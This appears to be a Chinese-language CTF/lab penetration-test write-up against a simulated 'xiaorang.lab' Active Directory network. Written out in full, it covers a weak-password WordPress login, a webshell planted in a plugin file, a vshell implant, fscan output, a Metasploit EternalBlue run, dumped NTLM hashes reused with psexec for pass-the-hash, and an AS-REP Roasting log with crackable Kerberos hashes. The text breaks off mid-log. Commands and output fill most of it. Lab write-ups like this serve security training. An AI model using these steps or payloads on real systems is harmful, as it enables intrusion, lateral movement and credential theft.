FLAG1
入口机有一个wordpress服务
wpscan没扫出漏洞，尝试一下弱口令没想到登进去了
http://39.99.146.5/wp-admin/
admin/123456
直接在Edit Plugins就可以写马了
在主题的akismet.php写个马

访问 /wp-content/plugins/akismet/akismet.php

拿蚁剑连一下

拿到第一个flag
________ ___ ________ ________ ________ _____
|\ _____\\ \ |\ __ \|\ ____\|\ __ \ / __ \
\ \ \__/\ \ \ \ \ \|\ \ \ \___|\ \ \|\ \|\/_|\ \
\ \ __\\ \ \ \ \ __ \ \ \ __\ \ \\\ \|/ \ \ \
\ \ \_| \ \ \____\ \ \ \ \ \ \|\ \ \ \\\ \ \ \ \
\ \__\ \ \_______\ \__\ \__\ \_______\ \_______\ \ \__\
\|__| \|_______|\|__|\|__|\|_______|\|_______| \|__|
flag01: flag{a1c9f11e-1033-4f2a-95f0-032f1ff79d22}
FLAG2
先用vshell上个线
然后信息收集一手
1www-data@ubuntu-web:/tmp$ ip addr show
21: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
3 link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
4 inet 127.0.0.1/8 scope host lo
5 valid_lft forever preferred_lft forever
6 inet6 ::1/128 scope host
7 valid_lft forever preferred_lft forever
82: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
9 link/ether 00:16:3e:27:06:38 brd ff:ff:ff:ff:ff:ff
10 inet 172.22.15.26/16 brd 172.22.255.255 scope global dynamic eth0
11 valid_lft 315357725sec preferred_lft 315357725sec
12 inet6 fe80::216:3eff:fe27:638/64 scope link
13 valid_lft forever preferred_lft forever
14
内网IP是172.22.15.26
传个fscan扫一下内网
1www-data@ubuntu-web:/tmp$ ./fs -h 172.22.15.0/24
2┌──────────────────────────────────────────────┐
3│ ___ _ │
4│ / _ \ ___ ___ _ __ __ _ ___| | __ │
5│ / /_\/____/ __|/ __| '__/ _` |/ __| |/ / │
6│ / /_\\_____\__ \ (__| | | (_| | (__| < │
7│ \____/ |___/\___|_| \__,_|\___|_|\_\ │
8└──────────────────────────────────────────────┘
9 Fscan Version: 2.0.0
10
11[2025-03-27 15:06:48] [INFO] 暴力破解线程数: 1
12[2025-03-27 15:06:48] [INFO] 开始信息扫描
13[2025-03-27 15:06:48] [INFO] CIDR范围: 172.22.15.0-172.22.15.255
14[2025-03-27 15:06:48] [INFO] 生成IP范围: 172.22.15.0.%!d(string=172.22.15.255) - %!s(MISSING).%!d(MISSING)
15[2025-03-27 15:06:48] [INFO] 解析CIDR 172.22.15.0/24 -> IP范围 172.22.15.0-172.22.15.255
16[2025-03-27 15:06:48] [INFO] 最终有效主机数量: 256
17[2025-03-27 15:06:48] [INFO] 开始主机扫描
18[2025-03-27 15:06:48] [INFO] 正在尝试无监听ICMP探测...
19[2025-03-27 15:06:49] [INFO] 当前用户权限不足,无法发送ICMP包
20[2025-03-27 15:06:49] [INFO] 切换为PING方式探测...
21[2025-03-27 15:06:49] [SUCCESS] 目标 172.22.15.24 存活 (ICMP)
22[2025-03-27 15:06:49] [SUCCESS] 目标 172.22.15.26 存活 (ICMP)
23[2025-03-27 15:06:49] [SUCCESS] 目标 172.22.15.35 存活 (ICMP)
24[2025-03-27 15:06:49] [SUCCESS] 目标 172.22.15.13 存活 (ICMP)
25[2025-03-27 15:06:49] [SUCCESS] 目标 172.22.15.18 存活 (ICMP)
26[2025-03-27 15:06:55] [INFO] 存活主机数量: 5
27[2025-03-27 15:06:55] [INFO] 有效端口数量: 233
28[2025-03-27 15:06:55] [SUCCESS] 端口开放 172.22.15.18:80
29[2025-03-27 15:06:55] [SUCCESS] 端口开放 172.22.15.24:80
30[2025-03-27 15:06:55] [SUCCESS] 端口开放 172.22.15.26:80
31[2025-03-27 15:06:55] [SUCCESS] 端口开放 172.22.15.13:88
32[2025-03-27 15:06:55] [SUCCESS] 端口开放 172.22.15.35:135
33[2025-03-27 15:06:55] [SUCCESS] 端口开放 172.22.15.13:135
34[2025-03-27 15:06:55] [SUCCESS] 端口开放 172.22.15.24:135
35[2025-03-27 15:06:55] [SUCCESS] 端口开放 172.22.15.13:139
36[2025-03-27 15:06:55] [SUCCESS] 端口开放 172.22.15.18:139
37[2025-03-27 15:06:55] [SUCCESS] 端口开放 172.22.15.35:139
38[2025-03-27 15:06:55] [SUCCESS] 端口开放 172.22.15.18:135
39[2025-03-27 15:06:55] [SUCCESS] 端口开放 172.22.15.24:139
40[2025-03-27 15:06:55] [SUCCESS] 端口开放 172.22.15.13:389
41[2025-03-27 15:06:55] [SUCCESS] 端口开放 172.22.15.24:445
42[2025-03-27 15:06:55] [SUCCESS] 端口开放 172.22.15.26:22
43[2025-03-27 15:06:55] [SUCCESS] 端口开放 172.22.15.35:445
44[2025-03-27 15:06:55] [SUCCESS] 端口开放 172.22.15.13:445
45[2025-03-27 15:06:55] [SUCCESS] 端口开放 172.22.15.18:445
46[2025-03-27 15:06:56] [SUCCESS] 服务识别 172.22.15.26:22 => [ssh] 版本:8.2p1 Ubuntu 4ubuntu0.5 产品:OpenSSH 系统:Linux 信息:Ubuntu Linux; protocol 2.0 Banner:[SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.5.]
47[2025-03-27 15:07:00] [SUCCESS] 服务识别 172.22.15.18:80 => [http]
48[2025-03-27 15:07:00] [SUCCESS] 服务识别 172.22.15.24:80 => [http]
49[2025-03-27 15:07:00] [SUCCESS] 服务识别 172.22.15.26:80 => [http]
50[2025-03-27 15:07:00] [SUCCESS] 服务识别 172.22.15.13:88 =>
51[2025-03-27 15:07:00] [SUCCESS] 服务识别 172.22.15.13:139 => Banner:[.]
52[2025-03-27 15:07:00] [SUCCESS] 服务识别 172.22.15.18:139 => Banner:[.]
53[2025-03-27 15:07:00] [SUCCESS] 服务识别 172.22.15.35:139 => Banner:[.]
54[2025-03-27 15:07:00] [SUCCESS] 服务识别 172.22.15.24:139 => Banner:[.]
55[2025-03-27 15:07:00] [SUCCESS] 服务识别 172.22.15.13:389 => [ldap] 产品:Microsoft Windows Active Directory LDAP 系统:Windows 信息:Domain: xiaorang.lab, Site: Default-First-Site-Name
56[2025-03-27 15:07:00] [SUCCESS] 服务识别 172.22.15.24:445 =>
57[2025-03-27 15:07:01] [SUCCESS] 服务识别 172.22.15.35:445 =>
58[2025-03-27 15:07:01] [SUCCESS] 服务识别 172.22.15.13:445 =>
59[2025-03-27 15:07:01] [SUCCESS] 服务识别 172.22.15.18:445 =>
60[2025-03-27 15:07:01] [SUCCESS] 端口开放 172.22.15.24:3306
61[2025-03-27 15:07:01] [SUCCESS] 服务识别 172.22.15.24:3306 => [mysql] 版本:5.7.26 产品:MySQL Banner:[J.5.7.26.7R%P yS.L6.nX W :IN mysql_native_password]
62[2025-03-27 15:08:00] [SUCCESS] 服务识别 172.22.15.35:135 =>
63[2025-03-27 15:08:00] [SUCCESS] 服务识别 172.22.15.13:135 =>
64[2025-03-27 15:08:00] [SUCCESS] 服务识别 172.22.15.24:135 =>
65[2025-03-27 15:08:00] [SUCCESS] 服务识别 172.22.15.18:135 =>
66[2025-03-27 15:08:00] [INFO] 存活端口数量: 19
67[2025-03-27 15:08:00] [INFO] 开始漏洞扫描
68[2025-03-27 15:08:00] [INFO] 加载的插件: findnet, ldap, ms17010, mysql, netbios, smb, smb2, smbghost, ssh, webpoc, webtitle
69[2025-03-27 15:08:01] [SUCCESS] NetInfo 扫描结果
70目标主机: 172.22.15.18
71主机名: XR-CA
72发现的网络接口:
73 IPv4地址:
74 └─ 172.22.15.18
75[2025-03-27 15:08:01] [SUCCESS] NetInfo 扫描结果
76目标主机: 172.22.15.24
77主机名: XR-WIN08
78发现的网络接口:
79 IPv4地址:
80 └─ 172.22.15.24
81[2025-03-27 15:08:01] [SUCCESS] NetInfo 扫描结果
82目标主机: 172.22.15.13
83主机名: XR-DC01
84发现的网络接口:
85 IPv4地址:
86 └─ 172.22.15.13
87[2025-03-27 15:08:01] [SUCCESS] 网站标题 http://172.22.15.18 状态码:200 长度:703 标题:IIS Windows Server
88[2025-03-27 15:08:01] [SUCCESS] NetInfo 扫描结果
89目标主机: 172.22.15.35
90主机名: XR-0687
91发现的网络接口:
92 IPv4地址:
93 └─ 172.22.15.35
94[2025-03-27 15:08:01] [INFO] 系统信息 172.22.15.13 [Windows Server 2016 Standard 14393]
95[2025-03-27 15:08:01] [SUCCESS] 网站标题 http://172.22.15.24 状态码:302 长度:0 标题:无标题 重定向地址: http://172.22.15.24/www
96[2025-03-27 15:08:01] [SUCCESS] NetBios 172.22.15.35 XIAORANG\XR-0687
97[2025-03-27 15:08:01] [SUCCESS] NetBios 172.22.15.24 WORKGROUP\XR-WIN08 Windows Server 2008 R2 Enterprise 7601 Service Pack 1
98[2025-03-27 15:08:01] [SUCCESS] NetBios 172.22.15.13 DC:XR-DC01.xiaorang.lab Windows Server 2016 Standard 14393
99[2025-03-27 15:08:01] [SUCCESS] NetBios 172.22.15.18 XR-CA.xiaorang.lab Windows Server 2016 Standard 14393
100[2025-03-27 15:08:01] [SUCCESS] 发现漏洞 172.22.15.24 [Windows Server 2008 R2 Enterprise 7601 Service Pack 1] MS17-010
101[2025-03-27 15:08:01] [SUCCESS] 网站标题 http://172.22.15.26 状态码:200 长度:39962 标题:XIAORANG.LAB
102[2025-03-27 15:08:01] [SUCCESS] 目标: http://172.22.15.18:80
103 漏洞类型: poc-yaml-active-directory-certsrv-detect
104 漏洞名称:
105 详细信息:
106 author:AgeloVito
107 links:https://www.cnblogs.com/EasonJim/p/6859345.html
108[2025-03-27 15:08:01] [SUCCESS] 网站标题 http://172.22.15.24/www/sys/index.php 状态码:200 长度:135 标题:无标题
109[2025-03-27 15:08:25] [SUCCESS] 扫描已完成: 35/35
扫出内网的四台机子
目标主机: 172.22.15.18
主机名: XR-CA
目标主机: 172.22.15.24
主机名: XR-WIN08
目标主机: 172.22.15.13
主机名: XR-DC01
目标主机: 172.22.15.35
主机名: XR-0687
172.22.15.24扫出来有MS17-010(永恒之蓝)漏洞
那直接用msf来打
proxychains4 msfconsole
use exploit/windows/smb/ms17_010_eternalblue # 选择使用的模块
set payload windows/x64/meterpreter/bind_tcp # 设置payload，可以通过show payloads查看
set RHOSTS 172.22.15.24 # 设置靶机的ip
exploit # 发起攻击

打了好几次终于通了，但是msf的shell有点问题，用不了
先用msf读个flag

__ _ ___ __
/ _| | / _ \/_ |
| |_| | __ _ __ _| | | || |
| _| |/ _` |/ _` | | | || |
| | | | (_| | (_| | |_| || |
|_| |_|\__,_|\__, |\___/ |_|
__/ |
|___/
flag02: flag{2e191985-3660-4b3a-b1c5-01be8b41c15e}
也可以用hashdump拿到哈希
meterpreter > hashdump
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e52d03e9b939997401466a0ec5a9cbc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
拿到hash可以用psexec横向移动

proxychains4 python psexec.py administrator@172.22.15.24 -hashes ':0e52d03e9b939997401466a0ec5a9cbc' -codec gbk

接着读flag
FLAG3-RDBC
接着看 172.22.15.24
访问 /www/sys/index.php
默认密码admin/123456成功登入

这个oa系统没办法直接拿到shell
但是我们可以进行一些信息收集
在团队->同事页面可以收集到一堆邮箱

我们可以利用这堆邮箱来构造用户名字典
lixiuying@xiaorang.lab
lixiaoliang@xiaorang.lab
zhangyi@xiaorang.lab
jiaxiaoliang@xiaorang.lab
zhangli@xiaorang.lab
zhangwei@xiaorang.lab
liuqiang@xiaorang.lab
wangfang@xiaorang.lab
wangwei@xiaorang.lab
wanglihong@xiaorang.lab
huachunmei@xiaorang.lab
wanghao@xiaorang.lab
zhangxinyu@xiaorang.lab
huzhigang@xiaorang.lab
lihongxia@xiaorang.lab
wangyulan@xiaorang.lab
chenjianhua@xiaorang.lab
在后续进行爆破的时候可以使用
这里我们猜测机子未开启预身份验证，尝试使用AS-REP Roasting攻击
AS-REP Roasting是一种对用户账户进行离线爆破的攻击方式。但是该攻击方式使用上比较受限，因为其需要用户账户设置不要求Kerberos 预身份验证选项，而该选项默认是没有勾选的。Kerberos 预身份验证发生在 Kerberos 身份验证的第一阶段（AS_REQ&AS REP），它的主要作用是防止密码离线爆破。默认情况下，预身份验证是开启的，KDC 会记录密码错误次数，防止在线爆破。
当关闭了预身份验证后，攻击者可以使用指定用户向域控制器的 Kerberos 88 端口请求票据，此时域控不会进行任何验证就将 TGT 和该用户 Hash 加密的 Login Session Key 返回。因此，攻击者就可以对获取到的用户 Hash 加密的 Login Session Key 进行离线破解，如果字典够强大，则可能破解得到该指定用户的明文密码。
————————————————
原文链接：https://blog.csdn.net/weixin_45954730/article/details/140647751
这里使用impacket-GetNPUsers工具，这个工具会尝试获得并列出不需要Kerberos域认证的用户
proxychains4 impacket-GetNPUsers -dc-ip 172.22.15.13 -usersfile username.txt xiaorang.lab/
结果
┌──(root㉿Xrntkk-Laptop)-[/home/xrntkk]
└─# proxychains4 impacket-GetNPUsers -dc-ip 172.22.15.13 -usersfile username.txt xiaorang.lab/
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:88 ... OK
$krb5asrep$23$lixiuying@xiaorang.lab@XIAORANG.LAB:9159559ba318af794bad4ac369b60a1e$2dd93a8a64ff9e932b1707c3e2fbdd379ced93ffb975f5d7dd52b728e0f7dd0c0ea0cc7ffb924897a1a6c1bee062e1b2fb25431f45f4b44ad73a390269d5c5df8b74591b07db87cb22d0de7c5540996343304336da5b11c412b1613b8b2b59c774ce1c6cc99556b0c63484533be7790a058c994b3c9be8fdc780ff9ab5a1e0a0f2c560665dd221335baadb5eca7577290085079fe8cd9da81d7bcaae840133efad3de3698e4e43a617d0d8d9fcb981f9184f2ac639a65640774d409453ab4754d8107d89c12c1a41acf1b23c9bbcc8ec35743b746936a8d34ea3c031b274058826d48ee5ae7f954cb01770ac
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:88 ... OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:88 ... OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:88 ... OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:88 ... OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:88 ... OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:88 ... OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:88 ... OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:88 ... OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:88 ... OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:88 ... OK
$krb5asrep$23$huachunmei@xiaorang.lab@XIAORANG.LAB:91e6b6e8eca3c81e9ebc041af6fbe6c9$b1de5c61b73c01359b467a40d0ddf8819234b3f383462eec85dc510eb1c3af9ce6718c33a510a131874bea7e2f2651d7d3de029cdb2c6b6e762bebda4756af475bd4c6c06db8ba3944b1608a5e9e7c2bb312db138301a28abc71b8d6cff4e4dfca8e31746d8b1856fc3e3234526bf2b183b79b6b21da685d3db4466505164f8e8e1a5290cabb7ba03c87406fa6eb4c24328f0e40af722bddffb95dff6fb23f1efeb23d0c491d1462c09e952c2783ca3f9ff8bc3b1b8c065df2e7e179801242b1e1643d639b4c2a56ca7fda7df124689b4af63b6ddc30a07299cac1a8b45fe23a3e0ec5078c16ae75880f9ae8
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:88 ... OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:88 ... OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:88 ... OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:88 ... OK
[-] User lihongxia@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:88 ... OK
[-] User wangyulan@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:88 ... OK
